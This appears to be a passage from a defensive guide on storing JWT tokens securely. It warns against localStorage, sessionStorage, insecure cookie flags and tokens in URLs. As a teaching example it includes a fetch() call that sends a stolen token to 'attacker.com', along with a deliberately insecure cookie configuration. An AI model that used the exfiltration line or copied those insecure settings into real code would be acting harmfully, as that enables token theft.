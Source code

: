 # Token Storage and Security

## 🔐 Secure Token Storage Strategies

Token storage is a critical security consideration in JWT authentication. This document covers best practices for storing tokens securely on both client and server sides.

## 🚫 What NOT to Do: Common Storage Anti-Patterns

### ❌ localStorage and sessionStorage (High Risk)

```javascript
// NEVER DO THIS - Vulnerable to XSS attacks
localStorage.setItem('jwt', token);
sessionStorage.setItem('refreshToken', refreshToken);

// Any XSS vulnerability can steal tokens
const stolenToken = localStorage.getItem('jwt');
fetch('https://attacker.com/steal', {
  method: 'POST',
  body: JSON.stringify({ token: stolenToken })
});
```

**Why this is dangerous:**
- ✗ Accessible via JavaScript (XSS vulnerability)
- ✗ Persists across browser sessions
- ✗ No built-in expiration
- ✗ Shared across all tabs and windows
- ✗ No CSRF protection

### ❌ Insecure Cookie Configuration

```javascript
// INSECURE cookie settings
res.cookie('token', jwt, {
  httpOnly: false,    // ❌ Accessible via document.cookie
  secure: false,      // ❌ Transmitted over HTTP
  sameSite: 'none',   // ❌ Vulnerable to CSRF
  maxAge: undefined   // ❌ No expiration
});
```

### ❌ URL Parameters and Headers

```javascript
// NEVER embed tokens in URLs
const apiUrl = `https://api.example.com/data?token=${jwt}`;

// URLs are logged, cached, and shared
// Tokens will appear in:
// - Server logs
// - Browser history  
// - Referrer headers
// - Analytics tools
```
